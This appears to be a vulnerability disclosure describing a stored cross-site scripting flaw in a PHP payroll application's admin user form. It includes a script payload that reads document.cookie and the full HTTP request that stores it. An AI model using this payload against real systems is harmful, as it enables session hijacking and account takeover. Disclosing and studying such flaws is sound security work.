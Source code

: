 # Simple Payroll System v1.0 by oretnom23 has Stored Cross Site Scripting

BUG_Author: lcg22266

vendors:https://www.sourcecodester.com/php/15167/simple-payroll-system-dynamic-tax-bracket-phpoop-and-mysql-free-source-code.html

Steps to reproduce

Access url address "http://ip/spms/admin/?page=admin" and Click "Add New"

Paste the below payload on Full Name fields and click Save

![image](https://github.com/lcg-22266/bug_pic/blob/main/click.png)

```
<script>alert(document.cookie)</script>
```

![image](https://github.com/lcg-22266/bug_pic/blob/main/xss.png)

Transmission packet

```
POST /spms/Actions.php?a=save_admin HTTP/1.1
Host: localhost
Content-Length: 80
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/spms/admin/?page=admin
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=8k72voo5t0276k7qbfjgmn7sjm
Connection: close

id=&fullname=%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E&username=a&type=1
```

When visiting http://ip/spms/admin/?page=admin executes payload

![image](https://github.com/lcg-22266/bug_pic/blob/main/session.png)




